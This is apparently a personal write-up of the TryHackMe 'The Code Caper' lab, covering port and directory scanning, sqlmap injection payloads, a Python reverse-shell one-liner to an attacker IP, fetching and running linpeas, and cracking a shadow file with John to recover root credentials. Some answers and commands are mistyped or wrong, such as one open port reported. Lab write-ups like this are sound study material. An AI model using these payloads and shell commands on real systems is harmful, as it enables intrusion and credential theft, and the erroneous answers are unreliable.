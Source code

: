 # TryHackMe - The Code Caper

## 🛠 Setup

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.83.79
```

## 📌 Task 2: Enumerate

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Results:**

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Q. How many ports are open on the target machine?
A. 1

**Q. What is the http-title of the web server?
A. Apache2 Ubuntu Default Page: It works


**Q. What version is the ssh service?
A. OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

**Q. What is the version of the web server?
A. Apache/h.t.tp


## 📌 Task 3: Web Enumeration

**Q. What is the name of the important file on the server?
A. administrator.php

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.83.79 -x .php,.txt,.html
```

**Results**
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 10918]
/administrator.php    (Status: 200) [Size: 409]
```

## 📌 Task 4: Web Xploitation

```bash
sqlmap --forms -a --dbms=mysql -u http://10.10.83.79/administrator.php 
```

Lesson learnt. Never. Ever use -a, the output takes forever! --dump is much better

**Results**
```
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

**Q. What is the admin username?
A.

**Q. What is the admin password?
A. 


**Q. How many forms of SQLI is the form vulnerable to?
A. 

```bash
sqlmap --forms -a --dbms=mysql -u http://10.10.83.79/administrator.php 
```
**Results**
```
	Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=Kspk' RLIKE (SELECT (CASE WHEN (1601=1601) THEN 0x4b73706b ELSE 0x28 END))-- yedd&password=BVzl

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=Kspk' AND GTID_SUBSET(CONCAT(0x717a6b7871,(SELECT (ELT(4491=4491,1))),0x7171706b71),4491)-- bidH&password=BVzl

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=Kspk' AND (SELECT 7037 FROM (SELECT(SLEEP(5)))YOCD)-- PfkO&password=BVzl```
```

## 📌 Task 5: Command Execution

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.57.121",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


**Q. How many files are in the current directory?
A. 

**Q. Do I still have an account
A> yes Check /etc/passwd

**Q. What is my ssh password?
A. 

Yikes! 
```bash
find / -type f -user pipngu 2>/dev/null
find / -type f -group pipngu 2>/dev/null
find / -type f -name *pass* 2>/dev/null
```
So many!!!

I tried the ones that seemed obvious. Before I landed on /var/hidden/pass

```bash
cat /var/hidden/pass
```

**Result**
```
pinguapingu
```

## 📌 Task 6: LinuxEnum

Lets ssh into the box as pingu
```bash
ssh pingu@10.10.83.79
```

Lets pull down linpeas.sh

**On attacker box

```bash
cp /usr/share/peas/linpeas/linpeas.sh .
python -m http.server 8888
```

**On target box
```bash
mktemp -d
cd <temp>
wget http://10.2.57.121/8888/linpeas.sh
chmox +x linpeas.sh
./linpeas.sh
```

**results**
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                             
-r-sr-xr-x 1 root papa 7.4K Jan 16  2020 /opt/secret/root (Unknown SUID binary!)              
-rwsr-xr-x 1 root root 134K Jul  4  2017 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable                                                                                       
-rwsr-xr-x 1 root root 11K May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40K May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 53K May 16  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                      
-rwsr-xr-x 1 root root 74K May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39K May 16  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 49K May 16  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 419K Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42K Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40K May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 139K Jan 28  2017 /bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)                                                       
-rwsr-xr-x 1 root root 40K May 16  2018 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                                                                     
-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 27K May 16  2018 /bin/umount  --->  BSD/Linux(08-1996)
```

**Q. What is the interesting path of the interesting suid file
A. /opt/secret/root


## 📌 Task 7: pwndbg

```bash
gdb /opt/secret/root
```

**Q. Read the above :)

## 📌 Task 8: Binary-Exploitaion: Manually

**Q. Woohoo!

## 📌 Task 9: Binary Exploitation: The pwntools way

**Q. Even more woohoo!

** Bingo. Shadow password list!


## 📌 Task 10: Finishing the job

Lets use john the ripper

1. Copy and paste the shadow file to a file on your attacher pc called shadow. 
2. Then grab the passwd list from the hacked machine and paste into a file called passwd
3. Unshadow the passwords
4. Use John the ripper with rockyou.txt wordlist

```bash
nano shadow
nano passwd
unshadow passwd shadow > johnpasswd
john johnpasswd --wordlist=/usr/shae/wordlists/rockyou.txt
```

***results***
```
postman          (papa)     
love2fish        (root)   
```

**Q. What is the root password!
A.love2fish


## 📌 Task 11: Thanks You!

**Q. You helped me out!
